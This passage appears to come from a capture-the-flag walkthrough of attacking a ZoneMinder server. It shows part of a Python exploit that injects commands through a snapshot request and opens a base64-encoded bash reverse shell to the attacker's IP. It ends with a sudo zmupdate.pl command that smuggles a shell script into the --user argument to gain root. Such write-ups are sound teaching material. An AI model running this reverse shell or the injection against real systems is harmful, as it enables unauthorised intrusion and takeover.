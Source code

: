 ```bash

    def execute_command(self, cmd):
        print("[>] sending payload..")
        data = {'view': 'snapshot', 'action': 'create', 'monitor_ids[0][Id]': f';{cmd}', '__csrf_magic': self.csrf_magic}
        response = requests.post(f"{self.target_uri}/index.php", data=data)
        print("[>] payload sent" if response.status_code == 200 else "[!] failed to send payload")

    def exploit(self, payload):
        if self.fetch_csrf_token():
            print(f"[>] executing...")
            self.execute_command(payload)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target-url', required=True, help='target url endpoint')
    parser.add_argument('-ip', '--local-ip', required=True, help='local ip')
    parser.add_argument('-p', '--port', required=True, help='port')
    args = parser.parse_args()

    # generating the payload
    ps1 = f"bash -i >& /dev/tcp/{args.local_ip}/{args.port} 0>&1"  
    ps2 = base64.b64encode(ps1.encode()).decode()
    payload = f"echo {ps2} | base64 -d | /bin/bash"

    ZoneMinderExploit(args.target_url).exploit(payload)
```
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_13.png' | relative_url }})
<br/><br/>
Access as zoneminder
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_14.png' | relative_url }})
<br/><br/>
check for premises
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_15.png' | relative_url }})
<br/><br/>
We can update db and change others file in zm
<br/><br/>
But we are no going to update anything we are going to pass a revshell in user update
<br/><br/>
1. We can stabilize the shell using import ptty but it is not necessary, we create the revshell and pass it trought a python server
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_16.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_17.png' | relative_url }})
<br/><br/>
chmod 700 or chmod  +x  for permisses
<br/><br/>
We need to be listening at the port specify 
<br/><br/>
And as a final step:
<br/><br/>
![Untitled]({{ '/assets/images/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf/8207f765-d648-4dc3-ba83-0b44a11e6784-export-13ad4084-710c-4cfa-b826-02a6c065cecf_Untitled_18.png' | relative_url }})
<br/><br/>
```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploitfinalbello.sh)' --pass=ZoneMinderPassword2023
```